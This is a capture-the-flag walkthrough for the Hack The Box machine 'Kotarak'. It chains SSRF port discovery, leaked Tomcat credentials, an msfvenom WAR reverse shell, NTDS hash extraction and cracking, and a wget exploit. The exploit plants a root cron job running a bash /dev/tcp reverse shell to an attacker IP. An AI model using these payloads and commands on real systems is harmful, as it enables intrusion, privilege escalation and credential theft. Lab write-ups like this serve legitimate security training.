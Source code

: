 # HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting  on port 60000 seems linteresting, lets check that out first:

site.png

Trying to enter www.hackthebox.com in the search box fowrards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:

fuzz.png

Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888

888.png

Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page sorce we find credentials for the Tomcat service running on port 8080:

creds.png

Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html

login.png

These credentials work and we can now authenticate to the site:

tomcat.png

### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:

file.png

Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:

wget.png

Now lets use impacket-secretsdump to extract some hashes

dump.png

Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:

crack.png

Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.33 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version we find: https://www.exploit-db.com/exploits/40064


First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target ( I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan